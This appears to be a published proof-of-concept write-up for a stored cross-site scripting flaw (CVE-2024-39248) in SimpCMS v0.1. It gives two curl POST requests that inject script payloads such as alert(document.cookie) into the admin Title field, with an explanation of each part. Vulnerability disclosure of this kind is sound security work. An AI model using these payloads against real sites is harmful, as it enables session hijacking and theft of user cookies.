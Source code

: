 ## Exploit Title: SimpCMS v0.1 - Cross Site Scripting (XSS)
## CVE: CVE-2024-39248
## Exploit Author: Jason Jacobs (0xjason_jacobs - Twitter)

## Vendor Homepage: https://sourceforge.net/projects/simpcms/
## Vulnerable endpoint: /SimpCMS/admin.php

A cross-site scripting (XSS) vulnerability in SimpCMS v0.1 allows
attackers to execute arbitrary web scripts or HTML via a crafted
payload injected into the Title field at /admin.php.

### Updated cURL command parameters for the SimpCMS version live on SourceForge:

Upon logging in to the admin interface for SimpCMS, copy your respective Cookie values observed in the Application tab in the browser Inspect element and submit the following curl request:

> curl -X POST "http://site.com/SimpCMS/admin/index.php" -d "title=<script>alert(document.cookie)</script>&abbrev=random&newSector=" -b "PHPSESSID=c4v4tjh5fpv4po3k5dp5mrb8r0"

![command](command.png)

![poc](poc.png)


### Parameters from the initial CVE submission (Same exploit works):

The initial parameters observed for the SimpCMS software resulted in the following cURL command but was later updated:

> curl -X POST "http://site.com/SimpCMS/admin.php" -d "title=%3Cbody+onload%3Dalert%281%29%3E&text=ee&cat=something&main=1&submit=submit" -b "username=admin; password=PARAMVALUE"

Explanation:
> - curl: The command-line tool for transferring data with URLs.
> - -X POST: Specifies the request method to use (POST).
> - "http://site.com/SimpCMS/admin.php": The URL to which the request is sent.
> - -d "title=<script>alert(document.cookie)</script>&abbrev=random&newSector=" -b "PHPSESSID=c4v4tjh5fpv4po3k5dp5mrb8r0" - The POST request payload.

Run this command in your terminal to send the POST request with the XSS payload.
Visit the /SimpCMS main site and the XSS will be visible.

CWE: https://cwe.mitre.org/data/definitions/79.html
